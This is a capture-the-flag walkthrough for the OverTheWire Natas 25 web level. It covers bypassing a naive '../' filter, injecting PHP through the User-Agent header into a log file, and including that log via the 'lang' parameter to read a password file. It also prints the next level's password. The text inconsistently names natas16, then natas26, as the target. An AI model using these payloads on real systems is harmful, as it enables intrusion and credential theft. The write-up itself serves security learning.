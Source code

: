 # URL: http://natas25.natas.labs.overthewire.org/

# Solution:

File: `LEVEL_25_source_code.php` contains PHP code with some comments.  
So the website is actually parsing the `lang` param, tries to escape it from path traversal and then includes that file. Additionally it prevents accessing `natas_webpass` directory via `lang` param.  
So we need some way to include our own PHP script that will be able to read from:  
`/etc/natas_webpass/natas16`

Let's examine: `safeinclude` function to see if we can get any exploits:

```
function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) {
            include($filename);
            return 1;
        }
        return 0;
    }
```

So the function check for `../` existence and replace occurences with `` but we can still exploit it in following way:  
Passing such string: `../.../...//../.../...//'` will be equal to `../../` after replacement. So we can still do path traversal to include any file that we want (of course including permissions).

But we still need to somehow inject PHP code into to a file that we could include later on, so is there any place in that source code writing something to a file to which we have permission?

```
function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n";
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
```

Okay so what can we control?

1. `$SERVER['HTTP_USER_AGENT']` is actually the value of `User-Agent` request header so we control that
2. The final name of file is dedicated by the value of our cookie so we also control that.

Okay so we can do following:

1. Set your Cookie to for example: `lovectfs`
2. Pass: `<?php $password=file_get_contents('/etc/natas_webpass/natas26'); echo $password;?>` as `User-Agent` header value -> that is going to be injected PHP code into logs
3. Since we know the logfile path, we can include it by path traversing via `lang` param as follows:  
   `../.../...//../.../...//../.../...//../.../...//../.../...//../.../...//../.../...//../.../...//../.../...//../.../...//../.../...//../.../...//../.../...//../.../...//../.../...//../.../...//../.../...//../.../...//../.../...//../.../...//var/www/natas/natas25/logs/natas25_lovectfs.log`
4. Executing such request will print value of password

`Natas 26 password: oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T`
